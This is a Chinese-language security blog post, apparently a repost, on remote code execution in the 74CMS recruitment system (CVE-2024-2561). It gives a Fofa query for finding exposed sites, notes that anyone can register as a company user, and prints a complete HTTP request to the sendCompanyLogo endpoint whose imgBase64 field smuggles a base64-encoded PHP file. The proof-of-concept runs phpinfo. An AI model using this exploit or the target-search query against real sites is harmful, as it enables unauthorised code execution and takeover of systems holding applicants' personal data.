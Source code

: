 #  74cmsRCECVE-2024-2561   
原创 骇客安全  骇客安全   2025-01-27 20:00  
  
## 漏洞描述  
  
74CMS人才系统存在RCE CVE-2024-2561，漏洞地址存在与sendCompanyLogo文件中/controller/company/Index.php#sendCompanyLogo的组件Company Logo Handler。经修改后的参数:imgBase64恶意代码输入可导致rce。  
## 漏洞复现  
  
1、Fofa  
  
app="骑士-74CMS"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991NBAp7FYHRAgJxxy7CfS95pib9TiaJKOuz6EWTws3DU7oG7bOIm39iaGyuTa2K7aA8t2m5UqbEWibnic7A/640?wx_fmt=png&from=appmsg "null")  
  
2、从官方演示网站上可以清楚地看出：  
https://74cmsse.xxxxx.com/member/reg/company  
 他们允许任何人注册为公司用户。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991NBAp7FYHRAgJxxy7CfS95pbd88BmHPTfK5oj7kSYlOxhDUKqO58v11mBxkh6qGalwNdKIARyVPZQ/640?wx_fmt=png&from=appmsg "null")  
  
3、当在完成公司成员注册后，发送以下EXP就可以完成上传  
```
POST /v1_0/company/index/sendCompanyLogo HTTP/1.1
Host: 
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
user-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MDk4MTY4MDcsImV4cCI6MTc0MTAyODgwNywiaW5mbyI6eyJ1aWQiOjEsInV0eXBlIjoxLCJtb2JpbGUiOiIxNTIxMjM0NTY3OCJ9fQ.8MYJ6e8qOGCR6s3pTIlFLsWFgAhC4f-F8XH_VNaC5BQ
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: qscms_visitor=%7B%22utype%22%3A1%2C%22mobile%22%3A%2215212345678%22%2C%22token%22%3A%22eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MDk4MTY4MDcsImV4cCI6MTc0MTAyODgwNywiaW5mbyI6eyJ1aWQiOjEsInV0eXBlIjoxLCJtb2JpbGUiOiIxNTIxMjM0NTY3OCJ9fQ.8MYJ6e8qOGCR6s3pTIlFLsWFgAhC4f-F8XH_VNaC5BQ%22%7D
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 56


imgBase64=data:image/php;base64,PD9waHAgcGhwaW5mbygpOw==

```  
  
直接访问  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991NBAp7FYHRAgJxxy7CfS95pvf9ibRIlibWP0lsVyhZXIWRT76gx4E0Ze3WkOSwSbhqB80bjvtKo3ia4A/640?wx_fmt=png&from=appmsg "null")  
  
  
